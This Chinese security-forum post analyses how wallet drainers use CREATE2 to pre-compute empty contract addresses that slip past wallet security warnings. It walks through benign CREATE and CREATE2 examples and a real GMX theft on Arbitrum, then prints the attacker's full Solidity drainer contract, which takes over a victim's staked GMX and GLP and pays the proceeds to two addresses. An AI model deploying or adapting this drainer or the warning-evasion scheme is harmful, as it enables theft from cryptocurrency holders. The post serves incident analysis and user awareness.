

# 奇安信攻防社区 - 探究 Wallet Drainers 使用 Create2 Bypass 钱包安全告警

### 探究 Wallet Drainers 使用 Create2 Bypass 钱包安全告警

探究 Wallet Drainers 使用 Create2 Bypass 钱包安全告警

## 前言

最近链上的 TVL 很高，Wallet Drainers 也越来越活跃了。

自己简单看了下，感觉蛮有趣的，因为最近手中的事情太多了，就简单记录下。

- - -

## Create 和 Create2

在了解如何 bypass 钱包的安全告警之前，首先需要了解这一行为的实现，基于 Create2

### Create

EOA 可以创建智能合约，智能合约同样也是可以创建智能合约的

`create`通常与`address`结合使用，用于在智能合约中创建新的合约实例。通过使用`create`，合约可以在其执行期间动态地生成新的合约。

这边我写一个简单的示例：

```js
contract Factory {
    event NewContract(address indexed createdContract);

    function createNewContract() external {
        // 使用 create 创建新的合约
        address newContract = address(new MyContract());
        emit NewContract(newContract);
    }
}

contract MyContract {
    // 合约的逻辑和状态变量
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function isOwner() external view returns (bool) {
        return msg.sender == owner;
    }
}
```

首先部署`Factory`合约 合约地址为 0xa131AD247055FD2e2aA8b156A11bdEc81b9eAD95

然后创建新的合约 createNewContract，可以看到日志中：

```js
\[

    {

        "from": "0xa131AD247055FD2e2aA8b156A11bdEc81b9eAD95",

        "topic": "0x387ea218537e939551af33bbc2dd6c53b1fee55d377a0dce288258f972cb3a9c",

        "event": "NewContract",

        "args": {

            "0": "0xc176E14869501dd2B8DCFaAe60Bd022717b6350a",

            "createdContract": "0xc176E14869501dd2B8DCFaAe60Bd022717b6350a"

        }soli

    }

\]
```

可以看到创建了合约 0xc176E14869501dd2B8DCFaAe60Bd022717b6350a

我们再去部署 MyContract 可以发现合约地址为 0xc176E14869501dd2B8DCFaAe60Bd022717b6350a

点击 owner 为

"0": "address: 0xa131AD247055FD2e2aA8b156A11bdEc81b9eAD95"

owner 为创建的合约地址，那么就实现了在合约中创建合约的目的。

### Create2

`create2` 允许合约在指定的地址上创建新的合约实例

那么就可以达到“预测”合约地址的方法

因为在地址的计算机制中，通常使用`keccak256` 哈希函数计算合约地址

create2 为我们提供了一个计算地址的 salt 值，这样我们就可以更加灵活地控制合约地址

比如我们使用 create2，我们可以在创建合约之前预测新创建的合约地址，如果我们在该地址上预先提供好需要部署的合约，那么就可以达到很多目的，比如：可以进行代币转移，合约升级，恶意合约的部署等等。

写一个简单的示例：

```js
contract PredictableContract {
    address public owner;

    event ContractCreated(address indexed newContract, address indexed owner);

    constructor(address _owner) payable {
        owner = _owner;
    }

    function getOwner() public view returns (address) {
        return owner;
    }
}

contract Factory {
    function deploy(uint _salt) public payable returns (address) {
        bytes32 hash = keccak256(
            abi.encodePacked(
                bytes1(0xff),          
                address(this),         
                _salt,                 
                type(PredictableContract).creationCode 
            )
        );

        address newContract = address(uint160(uint256(hash)));

        return address(new PredictableContract{salt: bytes32(_salt)}(msg.sender));
    }
}
```

给 salt 为 66 在部署的合约 (合约地址 0x3596A5B0cb68D61C071d5A535A3B676fB2b7D678)

中 deploy 一个合约

可以看到

| 解码输入 | { "uint256 \_salt": "66" } |
| --- | --- |
| 解码输出 | { "0": "address: 0xa852De88789ced6c8aF04738Cfb0E444cbb83102" } |

得到预测的合约 0xa852De88789ced6c8aF04738Cfb0E444cbb83102

我们部署到 owner 合约地址可以看到 owner 为

0xa852De88789ced6c8aF04738Cfb0E444cbb83102

也可以看下这位师傅写的[solidity 使用 create2 预测合约地址｜create2 用法｜](https://blog.csdn.net/zgsdzczh/article/details/126408014)

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract ContractDemo {
    address public owner;
    // Only owners can call transactions marked with this modifier
    modifier onlyOwner() {
        require(owner == msg.sender, "Caller is not the owner");
        _;
    }
    constructor(address _owner) payable {
        owner = _owner;
    }

    function getOwner() public view returns (address) {
        return owner;
    }

}
contract Factory {
    // Returns the address of the newly deployed contract
    function deploy(
        uint _salt
    ) public payable returns (address) {
        return address(new ContractDemo{salt: bytes32(_salt)}(msg.sender));
    }

    //  获取待部署合约字节码
    function getBytecode()
        public
        view
        returns (bytes memory)
    {
        bytes memory bytecode = type(ContractDemo).creationCode;
        return abi.encodePacked(bytecode, abi.encode(msg.sender));
    }
    /** 获取待部署合约地址
        params:
            _salt: 随机整数，用于预计算地址
    */ 
    function getAddress(uint256 _salt)
        public
        view
        returns (address)
    {
        // Get a hash concatenating args passed to encodePacked
        bytes32 hash = keccak256(
            abi.encodePacked(
                bytes1(0xff), // 0
                address(this), // address of factory contract
                _salt, // a random salt
                keccak256(getBytecode()) // the wallet contract bytecode
            )
        );
        // Cast last 20 bytes of hash to address
        return address(uint160(uint256(hash)));
    }
}
```

更多详情：[Create2](https://www.wtf.academy/solidity-advanced/Create2/) & [Precompute Contract Address with Create2 | Solidity by Example](https://solidity-by-example.org/app/create2/)

## Bypass Wallet Warning

### bypass 流程

用 ScamSniffer 的图示 很清晰了，后续我再次捕捉这种基于 create2 的钓鱼或者攻击手段会更新再这篇



### 相关事件

[X 上的 Scam Sniffer | Web3 Anti-Scam：“1/ Here is a real case happened 9 hours ago A victim lost $927k worth of $GMX after signing a \`signalTransfer(address receiver)](https://etherscan.io/tx/0xccd808ede93fc8a3879e2f9dab5f4822c6e46fb349a73ad85944e0c93b27d09e)

#### 攻击链

事件 hash:

[0x0b8d095c9ee0f27362240ed3f315afa12d6f88a6a0c15b99231bc14d4dd1fb96(Txhash) Details | Arbiscan](https://arbiscan.io/tx/0x0b8d095c9ee0f27362240ed3f315afa12d6f88a6a0c15b99231bc14d4dd1fb96)

攻击者通过 GMX: Reward Router 提取代币

[0x4e1d6fcb620e87cedb1b67b5212a23ed1265acf4b8dcf646bc0810cfc3600260(Txhash) Details | Arbiscan](https://arbiscan.io/tx/0x4e1d6fcb620e87cedb1b67b5212a23ed1265acf4b8dcf646bc0810cfc3600260)

通过 Create2 预先计算的地址

[Contract Address 0xbD2BF58Be46619B7A22cE9457e1D51A10B82EB91 | Arbiscan](https://arbiscan.io/address/0xbD2BF58Be46619B7A22cE9457e1D51A10B82EB91)

0xbD2BF58Be46619B7A22cE9457e1D51A10B82EB91 是一个预先计算的合约地址，为空合约

作为绕过钱包安全警告，这个合约地址是在 wallet drainer 转移其资产时 (调用 create2 之后) 创建的

  
意思就是：当你同意了签名，然后这个合约才被创建，你的资产通过这个创建后的合约进行转移


可以看详细链路：

[arbitrum-0x0b8d095c9ee0f27362240ed3f315afa12d6f88a6a0c15b99231bc14d4dd1fb96 | MetaSleuth](https://metasleuth.io/result/arbitrum/0x0b8d095c9ee0f27362240ed3f315afa12d6f88a6a0c15b99231bc14d4dd1fb96)

#### 攻击者合约

```js
// File: contracts/gmxUnstake.sol

pragma solidity ^0.8.0;

contract GmxUnstake {
    address rewardRouter = 0xA906F338CB21815cBc4Bc87ace9e68c87eF8d8F1;
    address stakedGmxTracker = 0x908C4D94D34924765f1eDc22A1DD098397c59dD4;
    address gmxToken = 0xfc5A1A6EB076a2C7aD06eD22C90d7E710E35ad0a;
    address feeAndStakedGlp = 0x1aDDD80E6039594eE970E5872D247bf0414C8903;
    address rewardRouterV2 = 0xB95DB5B167D75e6d04227CfFFA61069348d271F5;

    receive() external payable {}

    fallback() external payable {}

    modifier onlyOwner() {
        require(
            tx.origin == 0x0000db5c8B030ae20308ac975898E09741e70000,
            "Caller is not an owner"
        );
        _;
    }

    function acceptTransfer(address victim) private {
        (bool success, ) = (rewardRouter).call(
            abi.encodeWithSignature("acceptTransfer(address)", victim)
        );
        require(success, "Can't accept transfer");
    }

    function handleRewards() private {
        (bool success, ) = (rewardRouter).call(
            abi.encodeWithSignature(
                "handleRewards(bool,bool,bool,bool,bool,bool,bool)",
                false,
                false,
                true,
                false,
                false,
                true,
                true
            )
        );
        require(success, "Can't handle rewards");
    }

    function unstakeGmx(
        uint16 percentageForFirstAddressInBasisPoints,
        address firstAddress,
        address secondAddress
    ) private {
        (bool callSuccess, bytes memory data) = (stakedGmxTracker).call(
            abi.encodeWithSignature(
                "depositBalances(address,address)",
                address(this),
                gmxToken
            )
        );
        require(
            callSuccess && data.length > 0,
            "Can't not get staked gmx amount"
        );

        uint256 stakedGmx = abi.decode(data, (uint256));

        if (stakedGmx > 0) {
            (bool unstakeSuccess, ) = (rewardRouter).call(
                abi.encodeWithSignature("unstakeGmx(uint256)", stakedGmx)
            );
            require(unstakeSuccess, "Can't not unstake");

            uint256 gmxAmountForFirstAddress = (stakedGmx *
                percentageForFirstAddressInBasisPoints) / 10000;

            uint256 gmxAmountForSecondAddress = stakedGmx -
                gmxAmountForFirstAddress;

            if (gmxAmountForFirstAddress > 0) {
                (bool firstTransferSuccess, ) = gmxToken.call(
                    abi.encodeWithSignature(
                        "transfer(address,uint256)",
                        firstAddress,
                        gmxAmountForFirstAddress
                    )
                );
                require(firstTransferSuccess, "First gmx transfer failed");
            }

            if (gmxAmountForSecondAddress > 0) {
                (bool secondTransferSuccess, ) = gmxToken.call(
                    abi.encodeWithSignature(
                        "transfer(address,uint256)",
                        secondAddress,
                        gmxAmountForSecondAddress
                    )
                );
                require(secondTransferSuccess, "Second gmx transfer failed");
            }
        }
    }

    function unstakeGlp(uint256 lpPrice, uint256 ethPrice) private {
        (bool callSuccess, bytes memory data) = (feeAndStakedGlp).call(
            abi.encodeWithSignature("balanceOf(address)", address(this))
        );
        require(callSuccess && data.length > 0, "Can't get glp token balance");

        uint256 stakedBalance = abi.decode(data, (uint256));

        if (stakedBalance > 0) {
            (bool unstakeSuccess, ) = (rewardRouterV2).call(
                abi.encodeWithSignature(
                    "unstakeAndRedeemGlpETH(uint256,uint256,address)",
                    stakedBalance,
                    (((stakedBalance * lpPrice) / ethPrice) * 9) / 10, // Calculate the min out value + remove 10%
                    address(this)
                )
            );
            require(unstakeSuccess, "Can't unstake and redeem glp ETH");
        }
    }

    function call(
        address target,
        bytes calldata data,
        uint256 value
    ) public onlyOwner {
        (bool success, bytes memory returnData) = target.call{value: value}(
            data
        );
        require(success, string(returnData));
    }

    function unstake(
        address victim,
        uint16 percentageForFirstAddressInBasisPoints,
        address firstAddress,
        address secondAddress,
        uint256 lpPrice,
        uint256 ethPrice
    ) public onlyOwner {
        require(
            percentageForFirstAddressInBasisPoints <= 10000,
            "Percentage must be between 0 and 10000"
        );

        require(
            firstAddress != address(0) && secondAddress != address(0),
            "Invalid address"
        );

        acceptTransfer(victim);

        handleRewards();

        unstakeGmx(
            percentageForFirstAddressInBasisPoints,
            firstAddress,
            secondAddress
        );

        unstakeGlp(lpPrice, ethPrice);

        if (address(this).balance > 0) {
            uint256 amountForFirstAddress = (address(this).balance *
                percentageForFirstAddressInBasisPoints) / 10000;

            uint256 amountForSecondAddress = address(this).balance -
                amountForFirstAddress;

            if (amountForFirstAddress > 0) {
                (bool success, ) = firstAddress.call{
                    value: amountForFirstAddress
                }("");

                require(success, "First transfer failed");
            }

            if (amountForSecondAddress > 0) {
                (bool success, ) = secondAddress.call{
                    value: amountForSecondAddress
                }("");

                require(success, "Second transfer failed");
            }
        }
    }
}
```

### 参考

> [Wallet Drainers Starts Using Create2 Bypass Wallet Security Alert - Scam Sniffer](https://drops.scamsniffer.io/post/wallet-drainers-starts-using-create2-bypass-wallet-security-alert/)
> 
> [Create2 | WTF Academy](https://www.wtf.academy/en/solidity-advanced/Create2/)
